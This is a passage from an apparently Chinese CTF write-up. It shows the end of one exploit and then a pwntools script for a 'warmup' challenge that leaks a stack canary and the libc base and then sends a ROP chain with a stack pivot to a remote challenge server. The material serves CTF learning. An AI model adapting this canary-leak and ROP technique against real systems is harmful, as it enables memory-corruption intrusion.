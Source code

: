 ```
	gdb.attach(p)
p.interactive()
```
### warmup
基础rop
```
#coding:utf-8

from pwn import *

path = './warm_up'
local = 1
attach = 0
P = ELF(path)
context(os='linux',arch='amd64',terminal=['terminator','-x','sh','-c'])
context.log_level = 'debug'

if local == 0:
	p = process(path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('139.129.76.65',50007)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.recvuntil('p!!!\n')
p.send('\x11'*0x18+'\x12')

p.recvuntil('\x12')
canary = u64(p.recv(7)+'\x00')
log.success('canary = '+hex(canary))

p.recvuntil('?')
payload = p64(0)*3 + '\x00' + p64(canary)[:7]
payload+= p64(0)
payload+= p64(0x400ab6)
p.send(payload)

p.recvuntil('warm up!!!')
p.send('\x11'*0x2f+'\x12')
p.recvuntil('\x12')
libcbase = u64(p.recv(6).ljust(8,'\x00')) - libc.sym['__libc_start_main'] - 240
log.success('libcbase = '+hex(libcbase))

p_rdx_rsi = 0x00000000001150c9 + libcbase
p_rdi = 0x400bc3
p_rbp = 0x400970
leave = 0x400a49
flag_addr = 0x601a00 + 0x98
p.recvuntil('?')
payload = p64(0)*3 + '\x00' + p64(canary)[:7]
payload+= p64(0)
payload+= p64(p_rdi) + p64(0)
payload+= p64(p_rdx_rsi) + p64(0x100) + p64(0x601a00)
payload+= p64(libcbase+libc.sym['read'])
payload+= p64(p_rbp) + p64(0x601a00)
payload+= p64(leave)  
p.send(payload)

raw_input()
```